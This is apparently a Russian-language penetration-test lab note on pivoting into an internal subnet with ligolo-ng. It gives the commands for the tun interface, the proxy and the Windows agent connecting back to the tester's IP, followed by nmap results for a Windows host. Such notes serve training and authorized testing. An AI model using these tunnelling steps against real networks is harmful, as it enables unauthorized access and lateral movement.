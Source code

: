  ```
 ```


скачиваем агента виндовс ligolo ng (https://github.com/nicocha30/ligolo-ng/releases) и проксси линукс

создаем интерфейс
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up

запускаем ligolo без TLS из папки с прокси линукс
./proxy -selfcert

Запускаем агента на винде
./ag.exe -connect 10.127.246.243:11601 -ignore-cert

Получает коннект в прокси и создаем туннель 
start
![](../../../attachment/Pasted%20image%2020241023144157.png)

Затем в новом терминале задаем роут
sudo ip route add 10.154.13.32/27 dev ligolo
 И получаем рабочий туннель в подсеть ![](../../../attachment/Pasted%20image%2020241023144428.png)

>[!tip]- Сканируем новую подсеть
Nmap scan report for 10.154.13.36
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  https?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Not valid before: 2023-03-22T13:42:05
|_Not valid after:  2033-03-19T13:42:05
445/tcp   open  microsoft-ds  Windows 10 Enterprise 19045 microsoft-ds (workgroup: hte)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: hte
|   NetBIOS_Domain_Name: hte
|   NetBIOS_Computer_Name: SBOYLE
|   DNS_Domain_Name: hte.stf
|   DNS_Computer_Name: sboyle.hte.stf
|   DNS_Tree_Name: hte.stf
|   Product_Version: 10.0.19041
|_  System_Time: 2024-10-23T11:46:21+00:00
|_ssl-date: 2024-10-23T11:47:10+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=sboyle.hte.stf
| Not valid before: 2024-06-24T10:54:47
|_Not valid after:  2024-12-24T10:54:47
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
10050/tcp open  tcpwrapped